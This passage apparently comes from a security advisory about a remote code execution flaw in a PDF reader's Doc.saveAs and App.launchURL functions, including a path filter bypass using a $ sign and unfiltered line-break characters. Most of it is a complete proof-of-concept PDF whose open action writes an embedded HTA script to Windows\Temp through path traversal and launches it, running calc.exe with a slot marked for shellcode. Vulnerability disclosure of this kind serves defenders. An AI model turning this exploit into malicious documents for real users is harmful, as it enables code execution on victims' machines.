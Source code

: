 This can be bypassed if a $ sign is used within the path. Note that if an attacker does this, they will execute the file from the current directory, which may not be ideal for exploitation.

Also note, that the App.launchURL function does not filter for space characters such as carriage return and line feeds. This can allow an attacker to spoof the file /url being launched.

## Doc.saveAs and App.launchURL Remote Code Execution Proof of Concept

```
%PDF-1.7
4 0 obj
<<
/Length 0
>>
stream
<script>
// enter your shellcode here
WshShell = new ActiveXObject("WScript.Shell");
WshShell.Run("c:/windows/system32/calc.exe", 1, false);
</script>
endstream endobj
5 0 obj
<<
/Type /Page
/Parent 2 0 R
/Contents 4 0 R
>>
 endobj
1 0 obj
<<
/Type /Catalog
/Pages 2 0 R
/OpenAction [ 5 0 R /Fit ]
  /Names <<
    /JavaScript <<
      /Names [
        (EmbeddedJS)
        <<
          /S /JavaScript
          /JS (
        this.saveAs('../../../../../../../../../../../../../../../../Windows/Temp/si.hta');
        app.launchURL('c$:/../../../../../../../../../../../../../../../../Windows/Temp/si.hta');
          )
        >>
      ]
    >>
  >>
>>
 endobj
2 0 obj
<</Type/Pages/Count 1/Kids [ 5 0 R ]>>
endobj
3 0 obj
<<>>
endobj
xref
0 6
0000000000 65535 f 
0000000166 00000 n 
0000000244 00000 n 
0000000305 00000 n 
0000000009 00000 n 
0000000058 00000 n 
```